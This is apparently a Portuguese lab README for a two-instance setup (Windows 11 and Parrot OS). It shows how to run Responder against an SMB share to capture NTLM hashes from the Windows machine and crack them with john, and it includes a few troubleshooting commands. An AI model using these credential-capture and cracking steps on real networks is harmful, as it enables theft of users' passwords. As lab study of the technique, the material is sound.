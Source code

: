 ### Imagens e Configurações de Instâncias

- **win11 c5large 65gb**
- **Parrot OS c5 65gb**

### Parrot OS

```bash
mkdir /home/parrot/sharefolder
```

#### Comando para Partilhar Pasta via SMB

Para partilhar uma pasta no Parrot OS, execute o seguinte comando:

```bash
sudo net usershare add sharefolder /home/parrot/sharefolder "A secret folder shared via SMB" everyone:F guest_ok=y
```
Executar o responder com a interface no "ip a" 
```bash
sudo responder -I ens5
```

#### Acessar Pasta Compartilhada no Windows 11

1. No Windows 11, pressione `Win + R` para abrir o Executar.
2. Digite `\\[IP_privado_do_Parrot]` e pressione Enter.

> **Nota:** Ao tentar colocar a senha, pode ocorrer um erro e aparecerá o hash no Parrot OS.

#### Logs do Responder no Parrot OS

Os logs do Responder são armazenados no seguinte diretório:

```plaintext
/usr/share/responder/logs
```

Para processar os hashes capturados, utilize o `john`:

```bash
john SMB-xxxxxxxx- TAB
```

### Troubleshooting

Se precisar resolver problemas relacionados ao SMB, use os seguintes comandos:

1. Verificar quais processos estão utilizando a porta 445:
    ```bash
    sudo lsof -i :445
    ```

2. Parar o serviço `smbd`:
    ```bash
    sudo systemctl stop smbd
    ```
